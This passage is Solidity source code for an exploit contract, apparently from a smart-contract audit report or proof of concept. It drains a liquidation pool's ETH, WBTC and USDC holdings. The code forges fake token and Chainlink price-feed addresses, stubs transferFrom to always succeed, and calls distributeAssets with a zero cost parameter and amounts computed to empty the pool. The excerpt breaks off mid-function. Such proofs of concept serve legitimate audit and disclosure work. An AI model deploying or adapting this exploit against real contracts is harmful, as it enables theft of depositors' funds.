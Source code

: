 ```js
    // The calculation of the amountETH, amountWBTC and amountUSDC are calculated to precisely and completely
    // drain the pool.
    // The values tagged as "foo" could be any value and are not important in the exploit
    function exploit(address attacker, address _wbtc, address _usdc) external
    {
        uint256 stakeTotal = getStakeTotal();
        uint256 attackerStake = getOneStake(attacker);
        Asset[] memory assets = new Asset[](3);
        // Forge fake tokens with token.clAddr and token.addr as address(this)
        address clAddr = address(this);
        address tokenAddr = address(this);
        uint256 ethBalance = address(liquidationPool).balance;
        uint256 wbtcBalance = IERC20(_wbtc).balanceOf(address(liquidationPool));
        uint256 usdcBalance = IERC20(_usdc).balanceOf(address(liquidationPool));
        Token memory tokenETH = Token('ETH', tokenAddr, 0 /*foo*/, clAddr, 0 /*foo*/);
        Token memory tokenWBTC = Token('WBTC', tokenAddr, 0 /*foo*/, clAddr, 0 /*foo*/);
        Token memory tokenUSDC = Token('USDC', tokenAddr, 0 /*foo*/, clAddr, 0 /*foo*/);
        uint256 amountETH = ethBalance * stakeTotal / attackerStake;
        uint256 amountWBTC = wbtcBalance * stakeTotal / attackerStake;
        uint256 amountUSDC = usdcBalance * stakeTotal / attackerStake;
        assets[0] = Asset(tokenETH, amountETH);
        assets[1] = Asset(tokenWBTC, amountWBTC);
        assets[2] = Asset(tokenUSDC, amountUSDC);
        uint256 collateralRate = 1; // foo
        uint256 hundredPC = 0; // --> costInEuros will be 0
        liquidationPool.distributeAssets(assets, collateralRate, hundredPC);
    }

    // Fake Chainlink.AggregatorV3Interface
    function latestRoundData() external pure returns (
      uint80 roundId,
      int256 answer,
      uint256 startedAt,
      uint256 updatedAt,
      uint80 answeredInRound
    )
    {
        answer = 0; // foo
    }

    // Simulate ERC20 token to bypass token transfer from manager contract
    function transferFrom(address, address, uint256) external pure returns (bool)
    {
        return true;
    }

    // Helper functions to compute the precise amount to completely drain the pool
    function getStakeTotal() private view returns (uint256 _stakes) {
        for (uint256 i = 0; i < 3; i++)
        {
            _stakes += getOneStake(liquidationPool.holders(i));
        }
    }

    function getOneStake(address holder) private view returns (uint256 _stake)
    {
        (Position memory _position, ) = liquidationPool.position(holder);
        _stake = stake(_position);
    }

    function stake(Position memory _position) private pure returns (uint256) {
        return _position.TST > _position.EUROs ? _position.EUROs : _position.TST;
```